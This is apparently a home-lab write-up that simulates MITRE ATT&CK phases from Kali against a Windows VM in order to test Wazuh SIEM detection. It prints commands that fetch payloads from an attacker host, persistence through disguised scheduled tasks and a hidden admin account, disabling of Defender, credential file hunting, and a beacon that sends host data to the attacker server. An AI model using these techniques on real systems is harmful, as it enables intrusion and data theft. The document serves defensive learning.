
On the Kali machine, I then hosted WinPEAS (A common Windows privilege escalation script that seeks misconfigurations) and a maliciously created payload.bat and then downloaded them through the established RDP connection from Kali to Windows.

On Windows PS: `Invoke-WebRequest http://KALI_IP:8000/winPEASx64.exe -OutFile winpeas.exe` (Outputting the results to a .txt file.)
I enumerated this output for common high value keywords as a malicious actor like, such as  `Writable`, `AllAccess`, `FullControl`, `Modify` etc. (Other common methods at this point might have been: unquoted service path enumeration where a file path has no quotation marks AND whitespace then a binary matching the directory name is placed, or scheduled task misconfigurations through for example running as high-privilged but having low-privilege underlying write access)

If we were an attacker we would now know that we have permissions to replace this binary that may be a service (program) running in the background at SYSTEM level privileges, with any executable we wanted and do almost anything if a low-privileged user has permissions to modify or replace it as shown above (the executable could including: a SYSTEM reverse shell, creation of a new hidden admin user etc). `echo ... > C:\Users\Publi\vuln.exe` is writing whatever we put between those two, into the .bat file. Which in this case is the command to give a specific user admin privileges. We are then copying a source file's contents to a second destination file. `/Y` supresses the overwrite prompt and forces it to overwrite if the file already exists.


- **Response:**
The `Invoke-WebRequest` command and downloading winPEAS & the payload.

 

  Possible binary replacement / reconfiguration
  
 
 
## (TA0003) Persistence
*Maintaining this foothold through persistant means.*
**Scheduled Tasks/Jobs (T1053), Boot or Logon Autostart Execution (T1547), Account Creation (T1136), Downloading Payloads (T1105),Remote Services (T1021):**

- On Kali created an .exe payload with msfvenom that writes the current date and time to a .txt and hosted it through a http.server. `-p windows/x64/exec` chooses the payload that executes a command on Windows, `CMD` is the specific command that will be run when the payload executes, `-f exe` is the output format (.exe), `-o update.exe` saves the entire payload as update.exe.

  In my RDP session, through Powershell I then downloaded this .exe.
  
 In CMD, now created a scheduled task to run that .exe upon logon. `tn` is task name, `/tr` is the program or script that will be executed, `/rl highest` makes it run with the highest privileges and `f` forces creation (overwrites if the task already exists right now).

 Additionally created a new admin user for some extra noise and created another scheduled task to keep creating that user upon logon incase it is deleted which is common (We also could have manipulated startup folder abuse and registry run keys like `HKCU` and `HKLM`.)

So we now have "WindowsUpdateTask" and "SystemMaintenanceTask".
-  **Response:**


This one actually shows the specific .exe file we made that was downloaded and the path to it.


Then here is the admin creation and scheduled task:

 
 
## (TA0005) Defence Evasion 
*Disabling, encryption and obsfucation techniques in order to avoid detection.*
**Masquerading (T1036), Impair Defenses (T1562), Obfuscated Files or Information (T1027):**

- For Defence Evasion, I temporarily disabled event log & Windows Defender realtime to spark some noise relating to protection modification, then encoding certain powershell commands as well as deleting certain Windows Event logs. In this case we encoded `whoami`, `hostname`, `ipconfig`, `net user` and `net localgroup administrators`.



- **Response:**
  
  
## (TA0007) Discovery & (TA0008) Lateral Movement
*Reconaissance of the compromised environment relating to the end-objective rather than sole initial access & Abuse of techniques fueled by discovery to move horizontally through systems in a network and follow through on the primary objective.*
**System Information Discovery (T1016), Network Service Scanning (T1082), Security Software Discovery (T1063), System Service Discovery (T1007), Account Discovery (T1087), Lateral Movement (TA0008), Remote Services (T1021):**

- User and group discovery with ``net user``, ``net localgroup administrators`` and ``query user``.
 Created a new RDP session with re-use of credentials for that new user (that may have privileges more tailored to a malicious actor's objective).
 
 
 System and OS discovery with ``systeminfo``, ``hostname`` and ``whoami /all``.

  
  
 Network discovery with ``ip config /all``, ``arp -a``, ``netstat -ano`` and ``route print``.
  
  
  
  
 File hunting (that could contain credentials or information on objectives) with ``dir C:\Users /s /b`` (AppData roaming & local for ____, ProgramData etc.), ``findstr /si password *.txt *.xml *.ini`` and ``dir C:\ /s /b | findstr /i "pass admin login cred"``.


- **Response:**


Wazuh shows the exact CMD Prompts.


  
## (TA0011) Command and Control 
*Adversary communication and control of compromised systems, with various levels of obsfucation.*
**Application Layer Protocol (T1071), Web Protocols (T1071.001),Command and Scripting Interpreter (T1059):**

- We are going to start a server on Kali and get the victim machine to ping back some information on a regular basis.


- This PS script creates an infininte loop every 60 seconds `while ($true) { ... }` (later paired with `Start-Sleep 60`). We first create the variables =  `$time`, `$user`, `$ip`, `$procs` (processes), `$ports` & `$logins` (reads the log file made earlier that notes login time to a .txt file each startup). Then call them each within the multi-line string `$body = @`. We then send a HTTP request to the Kali server address that includes the data within the URL `?data=`.


- Here we can see the output in the Kali terminal running the HTTP server.


- **Response:**
 I was trying to see results or events triggered in Wazuh but saw next to nothing with this regular beaconing, likely becuase it is normal HTTP GET requests from built in tools and quite stealthy, I thought it may be that that frequency is too low so I upped it to every singular second and it started to make Wazuh suspicious and flood with .exe alerts from powershell activity.
  The C2 technique is not as visible on the main MITRE dashboard compared to other tactic noise, but going into it specifically through the Framework tab shows the exact scripts we ran being categorised.

 


---
# MITRE ATT&CK Timeline:
- For the most part, Wazuh's MITRE dashboard showed the phases relatively well along my process. I learnt that the phases of attack are rarely going to be in perfect order and more a light semblence of it, for example alot of lateral movement techniques can be involved in persistence phases.

- Initial Access and Privilege Escalation Phases.


- Persistance Phase (Triggered alot of lateral movement from the tool payload (.exe) transfers.)


- Defence Evasion Phase.


- Discovery & Lateral Movement Phases.


---
# ossec.conf
- I downloaded a better text editor (Sublime) and navigated to the ossec.conf directory in order to open it up and take a look. It is the main configuration file for Wazuh and you can alter things such as log colleciton, file integrity monitoring, vulnerability management and malware checks.
 
Some examples:


- As a demonstration (Windows ossec agent-file), we can enable the file integrity monitoring, and also add a directory that we want to be monitored:
  
  
This is how it looks beforehand.

I added a weirdfile.txt to the folder, modified it and then deleted it with the following results:


---
# Challenges:
- Certain arguably better custom Sysmon config files crashing Wazuh, in the end I just went for using Wazuh's recommended one but would like to look into others.
- Hydra not working despite RDP and SMB clearly showing open with nmap. Used crackmap instead.
-  Dynamic IP reassignment caused agents to become disconnected sometimes at the start.
- winPeas Windows Security block (temporarily disable realtime protection or create a bypass).
- The additions required for a SIEM to fully function, for example we could not monitor various nmap scan noise levels on Wazuh and Sysmon alone, we would need something such as an IDS like Suricata.
-  The scheduled tasks created too much noise eventually and drowned out the ability to see other MITRE tactic phases, so I had to delete them before the discovery phase, but on Wazuh you can also quite easily remove certain Event IDs.


